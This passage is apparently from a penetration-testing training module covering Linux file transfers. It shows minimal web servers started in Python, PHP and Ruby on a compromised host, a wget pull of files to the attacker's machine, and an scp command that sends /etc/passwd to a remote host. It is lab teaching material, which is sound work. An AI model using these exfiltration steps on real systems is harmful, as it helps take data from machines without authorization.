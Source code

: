 ## Alternative Web File Transfer Method

Since Linux distributions usually have `Python` or `php` installed, starting a web server to transfer files is straightforward. Also, if the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page, which means that we are downloading the file from our Pwnbox.

It is possible to stand up a web server using various languages. A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server. What they perhaps lack in security, they make up for flexibility, as the webroot location and listening ports can quickly be changed.

#### Linux - Creating a Web Server with Python3

```shell-session
pepedavidphone@htb[/htb]$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Linux - Creating a Web Server with Python2.7

```shell-session
pepedavidphone@htb[/htb]$ python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Linux - Creating a Web Server with PHP

```shell-session
pepedavidphone@htb[/htb]$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

#### Linux - Creating a Web Server with Ruby

```shell-session
pepedavidphone@htb[/htb]$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

#### Download the File from the Target Machine onto the Pwnbox

```shell-session
pepedavidphone@htb[/htb]$ wget 192.168.49.128:8000/filetotransfer.txt

--2022-05-20 08:13:05--  http://192.168.49.128:8000/filetotransfer.txt
Connecting to 192.168.49.128:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [text/plain]
Saving to: 'filetotransfer.txt'

filetotransfer.txt                       [ <=>                                                                  ]       0  --.-KB/s    in 0s      

2022-05-20 08:13:05 (0.00 B/s) - ‘filetotransfer.txt’ saved [0/0]
```

**Note:** When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.

---

## SCP Upload

We may find some companies that allow the `SSH protocol` (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the `scp` utility to upload files. Let's attempt to upload a file to the target machine using the SSH protocol.

#### File Upload using SCP

```shell-session
pepedavidphone@htb[/htb]$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

htb-student@10.129.86.90's password: 
passwd                                                                                                           100% 3414     6.7MB/s   00:00
```

**Note:** Remember that scp syntax is similar to cp or copy.